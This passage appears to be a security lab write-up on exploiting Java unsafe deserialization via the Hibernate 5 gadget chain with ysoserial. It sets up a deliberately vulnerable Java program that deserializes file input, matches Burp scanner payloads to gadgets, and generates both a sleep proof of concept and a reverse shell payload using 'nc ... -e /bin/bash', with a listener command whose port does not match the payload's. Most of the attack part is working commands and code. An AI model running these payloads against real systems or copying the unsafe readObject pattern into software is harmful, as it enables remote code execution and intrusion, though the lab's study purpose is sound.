 #### 5.1. Info

Burp finding - `High: Java Unsafe Deserialization, vulnerable library: Hibernate 5 (DNS) (encoded in Base64)`.

Hibernate 5 is interesting to exploit because it gives arbitrary method invocation.


#### 5.2. Match the Burp scanner payload with the `yseoserial` gadget

```
# payload_str=`grep -r 'Hibernate 5 (DNS)' ~/Java-Deserialization-Scanner | grep -oE '\"rO0AB.*\"' | tr -d '"' | tr -d '\n' | head -c 32`
# options=`java -jar ~/ysoserial.jar 2>&1 | grep -i 'hibernate' | awk '{print $1}'`
# for i in $options; do java -Dhibernate5 -jar ~/ysoserial.jar $i ls 2>/dev/null | base64 | grep -oE $payload_str && echo $i; done
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1h
Hibernate1
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1h
Hibernate2
```
Note: this indicates that either payloads might work when `hibernate5` system property is set.

However, `Hibernate1.java` is the only file that checks for `hibernate5` system property.

```java
if ( System.getProperty("hibernate5") != null ) {
	return new String[] {
		"org.hibernate:hibernate-core:5.0.7.Final",
		"aopalliance:aopalliance:1.0",
		"org.jboss.logging:jboss-logging:3.3.0.Final",
		"javax.transaction:javax.transaction-api:1.2"
	};
}
```
File: `https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/Hibernate1.java`


#### 5.3. Project setup (vulnerable application)

a) The following code `/tmp/java_serial/Main.java` simply reads a file that contains a serialized Java steam, attempts to re-build the original Java object:

```java
import java.io.*;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        if (args.length != 1) return;
        String filename = args[0];
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object whatever = ois.readObject(); // hereby the vulnerable code
    }
}
```

b) Dependency chain for Hibernate 5:
```
# mkdir -p /tmp/java_serial/lib
# find ~/.m2 -regex ".*hibernate.*core.*5.0.7.*Final.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*aopalliance.*1.0.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*jboss.*logging.*3.3.0.*Final.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*javax.*transaction.*api.*1.2.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
```

b.1) Download dependencies from Maven repo
```
https://repo1.maven.org/maven2/javax/transaction/javax.transaction-api/1.2/javax.transaction-api-1.2.jar
```

c) Project structure - `/tmp/java_serial`:
```
# tree /tmp/java_serial
.
├── lib
│   ├── aopalliance-1.0.jar
│   ├── hibernate-core-5.0.7.Final.jar
│   ├── jboss-logging-3.3.0.Final.jar
│   └── jboss-transaction-api_1.2_spec-1.0.0.Final.jar
└── Main.java

1 directory, 5 files
```

d) Compiling the program:
```
# javac Main.java # compile as regular Java program
# javac -cp `pwd`/lib/*: Main.java # in case classes from JAR file are imported in the Java program
```


#### 5.4. Exploitation - part 1 (benign)

Note:
- it is enough to provide the gadget JAR as part of the Java Class Path when running the application (similar to WebLogic)
- after running the program, successful exploitation will delay the process as expected (however this will trigger a `NullPointerException`)

a) Generate the `ysoserial` payload for `Hibernate5`:
```
# java -Dhibernate5 -jar ~/ysoserial.jar Hibernate1 "sleep 5" > /tmp/java_serial/hibernate5.serial
```

b) Exploitation - PoC:
```
# time java -cp `pwd`/lib/*: Main hibernate5.serial 2>/dev/null

real	0m5.462s
user	0m0.680s
sys	0m0.068s
```


#### 5.5. Exploitation - part 2 (reverse shell)

a) Generate the `ysoserial` payload for `Hibernate5`:
```
# java -Dhibernate5 -jar ~/ysoserial.jar Hibernate1 "nc 127.0.0.1 9999 -e /bin/bash" > /tmp/java_serial/hibernate5.serial
```

b) Exploitation - PoC:
```
# java -cp `pwd`/lib/*: Main hibernate5.serial 2>/dev/null
# nc -nlvp 9191
```


